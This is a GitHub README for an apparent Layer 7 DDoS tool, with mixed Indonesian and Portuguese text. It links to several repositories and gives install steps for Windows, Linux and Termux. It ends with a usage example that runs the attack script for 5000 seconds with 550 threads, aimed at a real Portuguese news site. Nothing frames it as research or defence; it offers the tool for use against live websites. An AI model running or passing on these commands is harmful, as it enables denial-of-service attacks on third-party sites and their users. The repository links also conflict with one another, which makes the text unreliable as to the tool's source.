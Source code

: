 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

# :computer: Tampilan
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/LAYER7/main/img/images-tampilan.png">
</p>

# ⛔ INSTALLATION


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan
O comando básico para poder executar o overload é o seguinte.  

```
python3 sneazy.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 sneazy.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
